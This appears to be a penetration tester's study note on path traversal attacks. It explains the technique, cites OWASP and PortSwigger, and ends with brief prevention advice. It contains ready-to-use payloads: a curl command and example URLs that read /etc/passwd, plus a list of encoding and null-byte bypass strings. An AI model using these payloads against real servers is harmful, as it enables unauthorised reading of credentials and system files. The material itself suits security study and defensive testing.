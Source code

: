 # Path Traversal

Path Traversal *also known as Directory Traversal ([Portswigger](https://portswigger.net/web-security/file-path-traversal) and [OWASP](https://owasp.org/www-community/attacks/Path_Traversal))* is a direct read (and or execute) of file on the server via abusing relative path traversal of the file system from some web endpoint to then read a file from a directory not intended to be accessible. It is commonly confused with [[File-Inclusion]], which relies on the `include()` function to include file.  [OWASP](https://owasp.org/www-community/attacks/Path_Traversal): *This attack is also known as "dot-dot-slash", "directory traversal", "directory climbing" and "backtracking".* It is also a misnomer as it is dichotomy:

Path Traversal:
- Absolute Path Traversal: `vulnerable?parameter=/var/www/html/secrets.txt`
- Relative Path Traversal: `vulnerable?parameter=/var/www/html/../../etc/passwd`

- Difference between Absolute and Relative Paths:
	- Absolute Paths - `/etc/passwd` or `C:\Windows\System32\drivers\etc\hosts`
	- Relative Paths - `../etc/passwd`; relative to the position in a file system from a source position in the file system 

For a Relative Path Traversal Provide a path that is exactly as is in the URL
```bash
curl http://badwebsite/load?file=../../../../../dt/vuln --path-as-is
```

It is worth noting that while the Relative Path Traversal is more prevalent in literature Absolute Path Traversal to just a file in the same directory exists. [OWASP](https://owasp.org/www-community/attacks/Path_Traversal) example included:
```bash
# The For sites:
http://testsite.com/get.php?f=list
http://testsite.com/get.cgi?f=2
http://testsite.com/get.asp?f=test
# An attacker can execute this attack like this:
http://testsite.com/get.php?f=/var/www/html/get.php
http://testsite.com/get.cgi?f=/var/www/html/admin/get.inc
http://testsite.com/get.asp?f=/etc/passwd
```


- Application code and data.
- Credentials for back-end systems.
	- SSH, VPN keys
	- User files containing passwords
- Sensitive operating system files.
	- Configuration files containing passwords

#### Traversal encoding:

Remember this is a guide to ideas of how to encode Directory Traversal, encoding payloads on the fly not from here.
```bash
../
..\
..\/
../etc/passwd\.\	# Path and dot truncation
../etc/passwd/./

# To bypass (recursive) stripping of `.` `/` encoding
# Singular (partial) encoding 
%2e%2e/ # ../
%2e%2e%2f # ../
..%2f # ../
%2e%2e%5c # ..\
%2e%2e\ # ..\ 
..%5c #  ..\ 
%252e%252e%255c # ..\ 
..%255c # ..\
# Double encoding 
%252e%252e%252f
# UTF-8 encoding
%c0%ae%c0%ae%c0%af	
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
# Percent Encoding
# OWASP: Note that web containers perform one level of decoding on percent encoded values from forms and URLs
..%c0%af # ../
..%c0%9c # ..\
# Nested traversal sequences
..././
....//
....\/
....\
%00					# null byte
....////			# filter bypass
/%5C../%5C..

# Non Standard encodins - Portswigger
..%c0%af
..%ef%bc%8f

# Required directory
/var/www/images/../../../etc/passwd

# Application expecting a file extension
# Use a null byte to effectively terminate the file path, before the required extension
../../../etc/passwd%00.png
```

## Prevention

- Validate the user input before processing it - ideally compare to a whitelist and or permit alphanumeric characters only
- After validating the supplied input, append the input to the base directory and use a platform filesystem API to canonicalize the path. Verify that the canonicalized path starts with the expected base directory.
## References

[Portswigger](https://portswigger.net/web-security/file-path-traversal)
[OWASP](https://owasp.org/www-community/attacks/Path_Traversal)